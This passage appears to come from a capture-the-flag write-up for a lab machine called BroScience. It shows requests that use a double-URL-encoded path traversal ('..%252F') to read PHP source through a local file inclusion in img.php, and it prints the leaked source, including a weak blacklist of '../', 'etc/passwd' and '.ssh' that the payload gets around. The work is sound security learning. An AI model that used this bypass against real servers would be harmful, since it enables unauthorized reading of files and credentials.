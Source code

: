 `header.php` isn't particularly interesting, but for `GET /includes/img.php?path=..%252Fincludes%252Fimg.php HTTP/1.1` we get:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:01:58 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 483
Connection: close
Content-Type: image/png

<?php
if (!isset($_GET['path'])) {
    die('<b>Error:</b> Missing \'path\' parameter.');
}

// Check for LFI attacks
$path = $_GET['path'];

$badwords = array("../", "etc/passwd", ".ssh");
foreach ($badwords as $badword) {
    if (strpos($path, $badword) !== false) {
        die('<b>Error:</b> Attack detected.');
    }
}

// Normalize path
$path = urldecode($path);

// Return the image
header('Content-Type: image/png');
echo file_get_contents('/var/www/html/images/' . $path);
?>
```

So this is the filter we bypassed before to allow LFI.  

For `GET /includes/img.php?path=..%252Fincludes%252Fnavbar.php HTTP/1.1` we get:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:02:56 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 1201
Connection: close
Content-Type: image/png

<?php
include_once "includes/utils.php";
?>

<nav class="uk-navbar-container uk-margin uk-navbar-transparent <?=get_theme_class()?>">
    <div class="uk-container uk-container-expand">
        <div class="uk-navbar" uk-navbar>
            <div class="uk-navbar-left">
                <a href="/" class="uk-navbar-item uk-logo">BroScience</a>
            </div>
            <div class="uk-navbar-right">
                <?php
                // Check if user is logged in
                if (isset($_SESSION['id'])) {
                    echo '<div class="uk-navbar-item"><a href="swap_theme.php" class="uk-link-text"><span uk-icon="icon: paint-bucket"></span></a></div>';
                    echo "<div class=\"uk-navbar-item\">Logged in as <a class=\"uk-link-text\" href=\"user.php?id={$_SESSION['id']}\"><b>".htmlspecialchars($_SESSION['username'],ENT_QUOTES,'UTF-8')."</b></a></div>";
```